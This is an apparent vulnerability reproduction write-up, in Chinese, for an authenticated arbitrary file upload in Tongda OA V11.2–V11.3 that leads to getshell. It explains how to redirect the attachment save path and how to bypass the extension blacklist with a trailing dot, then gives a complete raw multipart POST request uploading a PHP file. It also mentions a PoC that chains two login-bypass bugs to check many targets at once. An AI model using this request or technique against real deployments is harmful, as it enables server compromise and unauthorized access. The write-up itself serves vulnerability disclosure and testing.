




# 1、漏洞描述

通达OA部分版本在成功登录系统后，存在任意文件上传漏洞，配合手动设置的上传文件保存路径，可直接getshell。

# 2、影响范围

V11.2

V11.3

# 3、漏洞复现


登陆后，选择菜单-->系统管理员-->附件管理；

然后配置文件保存路径，若真实环境中已经保存了上传路径，并且上传路径为webroot目录之下的任何一个子目录，则可不用修改，直接用即可。



文件上传位置在，组织-->系统管理员-->上传附件，默认文件上传位置C:\MYOA\attach\im\2108，因为不在web目录下边，所以不能通过web直接访问，可借助文件包含试试；



上传文件时抓包，同时利用Windows文件命名特性，后缀加.绕过文件上传黑名单，



上传后的目录则在设置的主目录下的im/上传返回的一串数字/文件名,这个2108为im目录的子目录，下划线后边的这串数字则为文件名的一部分，整个文件名在这里是1664170897.21.php，命名规则为返回的这串数字+.+上传的文件名；



POST包：

```python
POST /module/upload/upload.php?module=im HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------405175731128638857693749932995
Content-Length: 948
Origin: http://127.0.0.1
DNT: 1
Connection: close
Referer: http://127.0.0.1/general/index.php?isIE=0&modify_pwd=0
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=5197c48a; PHPSESSID=v0vakndetps2s3o506alv3fhc5

-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="id"

WU_FILE_0
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="name"

21.php
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="type"

application/octet-stream
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="lastModifiedDate"

2021/8/30 上午10:41:07
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="size"

31
-----------------------------405175731128638857693749932995
Content-Disposition: form-data; name="file"; filename="21.php."
Content-Type: application/octet-stream

<?php
echo "this is a friendly test, Please check and repair upload vulnerabilities."
?>
-----------------------------405175731128638857693749932995--

```

# 4、poc

poc这里只验证是否能上传上去，没有考虑上传后的目录问题，不过只要能上传上去，上传后的目录也就能知道，上边也有写。

poc这里调用了通达OA的另外两个漏洞，任意在线用户登录、任意用户登录，为了方便能够在只知道url的情况下，直接验证，配合框架，可以批量。